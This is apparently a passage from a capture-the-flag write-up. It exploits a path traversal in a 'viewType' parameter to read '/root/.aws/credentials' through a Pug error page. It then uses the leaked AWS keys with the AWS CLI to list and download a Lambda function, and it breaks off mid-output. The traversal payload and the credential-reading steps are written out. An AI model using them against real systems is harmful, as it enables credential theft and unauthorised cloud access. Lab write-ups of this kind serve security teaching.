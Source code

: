 Looking at the provided Dockerfile, we can see `COPY .aws/ /root/.aws/`, which seems ripe for the taking. Simply replacing the viewType parameter with `../../../../../../../../root/.aws/credentials` and `../../../../../../../../root/.aws/config` will raise errors like these:
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: ../../../../../../../../root/.aws/credentials:1:1 &nbsp;&gt; 1| [default]-------^ &nbsp; &nbsp;2| aws_access_key_id = SOME_KEY_HERE &nbsp; &nbsp;3| aws_secret_access_key = SOME_OTHER_KEY_HEREunexpected text &quot;[defa&quot; &nbsp; &nbsp;at makeError (/app/node_modules/pug-error/index.js:34:13) &nbsp; &nbsp;at Lexer.error (/app/node_modules/pug-lexer/index.js:62:15) &nbsp; &nbsp;at Lexer.fail (/app/node_modules/pug-lexer/index.js:1629:10) &nbsp; &nbsp;at Lexer.advance (/app/node_modules/pug-lexer/index.js:1694:12) &nbsp; &nbsp;at Lexer.callLexerFunction (/app/node_modules/pug-lexer/index.js:1647:23) &nbsp; &nbsp;at Lexer.getTokens (/app/node_modules/pug-lexer/index.js:1706:12) &nbsp; &nbsp;at lex (/app/node_modules/pug-lexer/index.js:12:42) &nbsp; &nbsp;at Object.lex (/app/node_modules/pug/lib/index.js:104:9) &nbsp; &nbsp;at Function.loadString [as string] (/app/node_modules/pug-load/index.js:53:24) &nbsp; &nbsp;at compileBody (/app/node_modules/pug/lib/index.js:82:18)</pre>
</body>
</html>
```

From this we can read off the AWS access keys and region, and use the AWS CLI to view the blacklist lambda function.

### Part 2: Enumerating and downloading lambda function
After filling in the required information after running `aws config`, we can use these commands to list and download the lambda function:
```powershell
PS C:\Users\user> aws lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "craft_query",
            "FunctionArn": "arn:aws:lambda:ap-southeast-1:531845528441:function:craft_query",
            "Runtime": "nodejs18.x",
            "Role": "arn:aws:iam::531845528441:role/query",
            "Handler": "index.handler",
            "CodeSize": 26889,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2023-06-06T16:15:30.000+0000",
            "CodeSha256": "QIiGvIQxqppAv1c2Z5oiiT3WXtpM1ODbyip1891ZkXQ=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "f032fc4f-a894-4942-8995-80f7671bb771",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            },
            "SnapStart": {
                "ApplyOn": "None",
                "OptimizationStatus": "Off"
            }
```